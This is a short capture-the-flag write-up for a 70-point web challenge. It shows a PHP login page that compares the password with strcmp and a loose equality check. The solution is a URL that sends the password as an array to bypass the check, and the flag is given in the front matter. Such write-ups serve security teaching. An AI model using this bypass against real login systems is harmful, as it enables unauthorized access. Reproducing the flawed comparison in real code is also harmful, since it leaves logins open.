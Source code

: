 ```yaml
---
layout: writeup
title: 'Web Exploitation 70: L33t H4xx0r'
level:
difficulty:
points: 70
categories: [web exploitation]
tags: []
flag: abctf{always_know_whats_going_on}
---
```

## Challenge

If you could bypass the login you could get the flag. [Link][1]

## Solution

We get to a webpage with a password field and the message `Seems like
your not a haxxor`. We are also given the source:

    <?php
        $FLAGWEB6 = (file_get_contents("flag.txt"));
        $PASSWORD =  (file_get_contents("flag.txt")); //haha
    
        if(isset($_GET['password'])){
    
        if(strcmp($PASSWORD, $_GET['password']) == 0){
                $success = true;
            }
            else{
                $success = false;
            }
        }
        else {
            $success = false;
        }
    ?>
{: .language-php}

we see that they use the `strcmp` function to check the password. We can
bypass this  
by supplying an array named password, instead of a variable, which will
always  
return 0 in the strcmp function.

    http://yrmyzscnvh.abctf.xyz/web6/?password[]=bla



[1]: http://yrmyzscnvh.abctf.xyz/web6/